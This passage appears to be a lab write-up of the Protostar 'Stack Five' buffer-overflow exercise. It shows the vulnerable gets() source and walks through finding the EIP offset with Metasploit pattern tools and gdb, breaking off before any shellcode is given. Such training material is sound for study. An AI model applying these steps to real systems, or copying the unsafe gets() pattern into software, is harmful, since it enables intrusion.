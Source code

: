 ## Stack Five

### Source Code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
### Overview
`Stack5 is a standard buffer overflow, this time introducing shellcode.`
```
$ ./stack5        
test
```
### Exploit
From the source code we can see that there is no function that we are trying to jump to and that we need to provide our own shellcode. This works out perfect we can use our shellcode from the SLAE64 course to obtain a shell or use [shellstorm](http://shell-storm.org/shellcode/).

Since we know what we are trying to exploit the gets() function we can begin and try to find the EIP offset or the (Instruction Pointer Offset). I prefer to use pattern_create and pattern_offset that is already built into Kali.
```shell
ap3x@kali-exploitdev:~/Documents/ExploitExercise/Protostar$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```
This gives us a unique pattern to use to find the offset of the EIP. We can paste this into the program and get where the EIP is overwritten.
```
(gdb) r
Starting program: /opt/protostar/bin/stack5 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
(gdb) 
```
Then we can use python to figure out the ascii value for the hex that replaced the EIP register value
```shell
>>> struct.pack("I", 0x63413563)
'c5Ac'
```
Then use the pattern_offset script to find the exact offset
```shell
ap3x@kali-exploitdev:~/Documents/ExploitExercise/Protostar$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q  c5Ac -l 100
[*] Exact match at offset 76
```
Now that we know the offset we can begin to form our exploit. Below is a photo what our stack looks like on the left and the stack on the right is what we want our stack to look like after sending our exploit code.
